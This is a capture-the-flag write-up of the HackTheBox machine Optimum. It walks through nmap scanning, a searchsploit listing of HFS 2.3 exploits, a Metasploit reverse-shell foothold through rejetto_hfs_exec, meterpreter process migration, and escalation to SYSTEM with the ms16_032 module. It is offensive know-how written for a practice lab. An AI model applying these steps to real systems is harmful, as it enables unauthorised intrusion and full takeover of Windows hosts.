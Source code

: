 ```yaml
---
title: "HackTheBox - Optimum"
author: Nasrallah
description: ""
date: 2022-08-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, metasploit, rce]
img_path: /assets/img/hackthebox/machines/optimum
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Optimum](https://app.hackthebox.com/machines/Optimum) from [HackTheBox](https://www.hackthebox.com). This Box is running a version of HFS vulnerable to remote code execution allowing us to easily get access to the machine, then we use a metasploit module to escalate our privileges to SYSTEM. 

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.8
Host is up (0.088s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We found port 80 open running `httpfileserver` version `2.3`.

Let's use `searchsploit` to see if there is any exploits in this version.

```bash
$ searchsploit hfs 2.3
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                                                | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                             | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                        | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                        | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                   | windows/webapps/34852.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

This version of HFS is vulnerable to remote command execution.

## **Foothold**

There is a module in metasploit named `windows/http/rejetto_hfs_exec` that would give us a reverse shell on the target, so let's use it.

![](1.png)

After setting the required options, let's run the exploit by entering `exploit`.

![](2.png)

Waiting a little bit for the exploit to fully run, we go back to metasploit command line and run `sessions` to see that we have a received a meterpreter session.

![](3.png)

## **Privilege Escalation**

Running the command `sysinfo` reveals that we're in a x64 architecture but our reverse shell is running on a x32 architecture.

![](4.png)

Let's list the precesses with the command `ps` and then move to a process like `explorer.exe` since it's x64 with the command `migrate <pid>.

```shell
meterpreter > ps                                                                                                                                             
                                                                                                                                                             
Process List                                                                                                                                                 
============                                                                                                                                                 
                                                                                                                                                             
 PID   PPID  Name                     Arch  Session  User            Path                                                                                    
 ---   ----  ----                     ----  -------  ----            ----                                                                                    
 0     0     [System Process]                                                                                                                                
 4     0     System                                                                                                                                          
 136   612   conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe                                                         
 228   4     smss.exe                                                                                                                                        
 284   476   spoolsv.exe                                                                                                                                     
 332   320   csrss.exe                                                                                                                                       
 384   320   wininit.exe                                                                                                                                     
 392   376   csrss.exe                                                                                                                                       
 436   376   winlogon.exe  
 476   384   services.exe                                                                                                                                    
 484   384   lsass.exe                                                                                                                                       
 544   476   svchost.exe                                                                                                                                     
 572   476   svchost.exe                                                                                                                                     
 588   2504  powershell.exe           x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 612   3008  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 620   476   vmtoolsd.exe
<**SNIP**>
 1944  2940  ezZKJbudGn.exe           x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\radFACD7.tmp\ezZKJbudGn.exe
 1956  1180  explorer.exe             x64   1        OPTIMUM\kostas  C:\Windows\explorer.exe
 2000  696   taskhostex.exe           x64   1        OPTIMUM\kostas  C:\Windows\System32\taskhostex.exe
 2220  2504  wscript.exe              x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\wscript.exe

meterpreter > migrate 1956
[*] Migrating from 2272 to 1956...
[*] Migration completed successfully.

```

After some research, we find that we can use a module named `windows/local/ms16_032_secondary_logon_handle_privesc` that would give us a SYSTEM shell.

![](5.png)

We need to set the following options:

 - set session <session id>
 - set lhost tun0
 - set lport <port number>

After we run the exploit, we should get a meterpreter shell with privileged access/

![](6.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
